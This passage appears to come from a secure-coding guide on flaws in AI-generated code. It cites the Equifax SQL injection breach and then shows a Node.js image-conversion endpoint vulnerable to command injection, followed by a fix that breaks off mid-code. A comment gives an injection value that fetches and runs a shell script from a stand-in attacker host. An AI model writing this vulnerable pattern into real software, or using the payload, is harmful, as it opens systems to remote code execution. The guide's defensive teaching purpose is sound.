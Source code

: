 ```python
```

### Real-World Impact

**Equifax Breach (2017):**
- SQL injection vulnerability exploited
- **147 million records** compromised
- Social security numbers, birth dates, addresses exposed
- Settlement: **$575 million**

## 1.1.2 Command Injection Vulnerabilities

### The Problem

A 2024 analysis by SecureLeap found that AI models **frequently generate code vulnerable to command injection**, particularly when dealing with system operations. The models often default to:
- Using `shell=True` in subprocess calls
- Direct string concatenation in system commands
- No input validation before shell execution

### AI-Generated Vulnerable Code

```javascript
// Prompt: "Create an image conversion API endpoint"
const { exec } = require('child_process');

app.post('/convert-image', (req, res) => {
    const { inputFile, outputFormat, quality } = req.body;

    // ❌ VULNERABLE: Unvalidated user input in shell command
    const command = `convert ${inputFile} -quality ${quality} output.${outputFormat}`;

    exec(command, (error, stdout, stderr) => {
        if (error) {
            return res.status(500).json({ error: error.message });
        }
        res.json({ success: true, output: `output.${outputFormat}` });
    });
});

// Attack vector:
// inputFile = "test.jpg; curl http://attacker.com/shell.sh | bash"
```

### Secure Implementation

```javascript
const { spawn } = require('child_process');
const path = require('path');

app.post('/convert-image', (req, res) => {
    const { inputFile, outputFormat, quality } = req.body;

    // ✅ SECURE: Input validation
    if (!/^[a-zA-Z0-9_\-]+\.(jpg|png|gif)$/.test(inputFile)) {
        return res.status(400).json({ error: 'Invalid input file' });
    }

    if (!['jpg', 'png', 'webp'].includes(outputFormat)) {
        return res.status(400).json({ error: 'Invalid output format' });
    }

    const qualityNum = parseInt(quality, 10);
    if (isNaN(qualityNum) || qualityNum < 1 || qualityNum > 100) {
```